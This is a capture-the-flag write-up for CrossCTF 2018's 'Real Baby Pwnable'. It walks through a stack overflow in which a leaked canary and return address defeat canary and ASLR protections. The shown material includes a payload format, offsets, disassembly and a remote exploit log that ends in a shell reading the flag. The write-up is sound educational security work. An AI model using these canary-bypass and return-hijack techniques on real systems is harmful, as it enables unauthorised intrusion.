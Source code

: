 # Real Baby Pwnable

* **Category**: Pwn
* **Description**: _This is an actual baby pwn challenge._

This challenge has been the most educational for us, as it was the first time we could ever bypass stack canaries and ASLR through newfound techniques.

The complete script can be found [here](https://github.com/irvinlim/crossctf-2018-quals/blob/master/pwn/realbabypwn/pwn.py).

## Recon

Let's run the binary through [checksec](https://github.com/slimm609/checksec.sh), which tells us useful information before we even start reading our first line of assembly:

```sh
$ ~/bin/checksec --file realbabypwn
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FORTIFY Fortified Fortifiable  FILE
Partial RELRO   Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   Yes     0         4            realbabypwn
```

## Finding a way to get to shell

We see there's a hidden function `babymode` that brings us to our shell. This means that we can simply overflow the return address to get there:

![babymode](img/babymode.png)

## Finding injection points

We see that there's a very viable injection point in the 2nd input, since it has an unbounded `scanf("%s", ...)` without specifying the max length of the buffer:

![fibonacci](img/fibonacci.png)

However, we can't simply fill the buffer with junk to get to our return address, since there's a stack canary right before the return address, at address `0x7fffffffe3c8`.

## Information leak

Nevertheless, we are able to bypass the stack canaries through **information leakage**. Since the first `scanf` allows us arbitrary read from within the stack, we can leak the values of the canary at runtime, overflowing the buffer and _replacing the canary with its original value_, and replacing the return address after that.

We can find the relative position of the canary value from the start of the Fibonacci array through some trial and error, and we see that we can enter a value of 289 to return the decimal value of the first 8 bytes of the canary, and repeat for the next 8 bytes. This gives a payload in the following format:

```python
print '\x6e' * 2321 + canary1 + canary2 + new_return
```

We can try this payload on our local machine (with ASLR disabled) and see that it works!

## Defeating ASLR

The second hurdle for us was finding out that it did not work on the server, which was probably due to ASLR. Normally, we would just brute force ASLR as we had brute forced one in an hour before. However, we soon realised that 64-bit machines are pretty much impossible to brute force, due to the significantly larger address space as compared to a 32-bit one.

We were pretty much stuck at this stage until we realised we could simply leak the value of the _old_ return address from the stack, compute the relative position of that address `0x555555554b92` in the `.text` section from the address of `babymode`, which is `0x5555555549b0`, which gives us an offset of `-0x1e2`.

This should allow us to reliably jump to the correct function, since even though the addresses of ELF sections independently of each other, the addresses of stuff within each section does not change. What this means is that the relative position of the old return address from `babymode` will **always** be the same.

## Tweaking

The final hurdle was scratching our heads and not knowing why everything works locally but not on the server. Even with ASLR enabled locally, we are still getting segfaults when running the pwn on the server.

Going back to the drawing board, we see that the new return address could be `0x5555555549b4` instead of `0x5555555549b0`, since the first two instructions in the function are essentially useless for us:

```
[0x555555554ad1]> pdf@sym.babymode
/ (fcn) sym.babymode 19
|   sym.babymode ();
|           0x5555555549b0      55             push rbp
|           0x5555555549b1      4889e5         mov rbp, rsp
|           0x5555555549b4      488d3d6d0200.  lea rdi, qword str._bin_sh ; 0x555555554c28 ; str._bin_sh ; "/bin/sh" @ 0x555555554c28
|           0x5555555549bb      e850feffff     call sym.imp.system    ; int system(const char *string);
|           0x5555555549c0      90             nop
|           0x5555555549c1      5d             pop rbp
\           0x5555555549c2      c3             ret
```

The `push rbp` and `mov rbp, rsp` instructions are simply just to save the old value of `$rbp` onto the stack and update `$rbp` to the value of `$rsp` right as we enter the stack frame, which is a commonality we see in all x86-based assemblies. We can actually just jump straight to `0x5555555549b4` with no obvious difference.

However, we don't know why this is necessary on the server but not locally.

## Finally!

Finally we managed to do it (full script [here](https://github.com/irvinlim/crossctf-2018-quals/blob/master/pwn/realbabypwn/pwn.py)):

```sh
$ python pwn.py remote
[**] This is try #0...

[*] Calculated offset: 289
[*] Dumped canary part 1: 00a932d25fbcddc0
[*] Dumped canary part 2: 5018fa4dfe7f0000
[*] Original return address: 92dbb0556d550000
[*] New target address: b1d9b0556d550000
[*] Payload: 00a932d25fbcddc05018fa4dfe7f0000b1d9b0556d550000
[*] Calculate overflow size: 2321
[*] Sending payload...
[*] Switching to interactive mode...
id
uid=1000(realbabypwnuser) gid=1000(realbabypwnuser) groups=1000(realbabypwnuser)
find / -name flag 2> /dev/null
/home/realbabypwnuser/flag
cat /home/realbabypwnuser/flag
CrossCTF{It3r4t1ve_0ver_R3curs1v3}
```

Even though this was the easiest pwn challenge in the CTF, we're not discouraged but extremely excited to have learnt new techniques to bypass various protection mechanisms!

## Tips

Some of the biggest takeaways we learnt from this challenge:

* [pwntools](https://docs.pwntools.com/en/stable/) is really, really great, and it's worthwhile to learn it inside out.
* It's possible to attach a running process to GDB while running a Python script, which we learnt from a handy tip by none other than [@nn_amon](https://www.reddit.com/r/securityCTF/comments/58w275/got_a_shell_with_pwntools_exits_almost_instantly/d94el6q/) himself:
  > I have another method of debugging an exploit if pwntools isn't opening another window/tmux panel properly.
  >
  > Just before triggering the overwrite, insert
  >
  > ```python
  > raw_input(str(r.proc.pid))
  > ```
  >
  > Then on a separate terminal,
  >
  > ```python
  > sudo gdb
  > attach <pid>
  > ```
* Documenting everything in your script is one of the best ways you can organise your thoughts and scratch work while doing pwns. It's far too easy to get your addresses confused by ASLR, endianness, etc. and you should make your life easier by being explicit in your script, especially if you're new.
